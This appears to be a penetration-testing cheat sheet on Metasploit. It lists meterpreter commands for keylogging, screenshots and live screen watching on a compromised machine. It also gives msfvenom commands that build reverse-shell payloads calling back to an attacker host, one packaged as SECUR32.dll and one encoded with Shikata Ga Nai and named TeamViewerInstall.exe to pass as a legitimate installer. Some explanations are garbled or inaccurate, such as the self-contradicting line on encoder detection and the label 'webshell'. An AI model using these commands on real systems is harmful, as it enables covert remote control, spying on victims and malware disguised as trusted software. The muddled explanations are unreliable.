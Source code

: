 More commands

```shell-session
msf6> help
	Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idle time       Returns the number of seconds the remote user has been idle
    keyboard_send  Send keystrokes
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user's desktop in real-time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components
```


## Encoders

`Encoders` come into play with the role of changing the payload to run on different operating systems and architectures. These architectures include: `x64`, `x86`, `sparc`, `ppc`, `mips`.

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore.

**Generating Payload - Without Encoding**

```
# #### Generating Payload - Without Encoding
# For instance, crafting a DLL file with a webshell
#########
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port$ -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file

# List enconders
show encoders
```


**Generating Payload - With Encoding**

```
# #### Generating Payload - With Encoding
# crafting a .exe file with Shikata Ga Nai encoder
#########
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
# -e: chosen encoder 

```
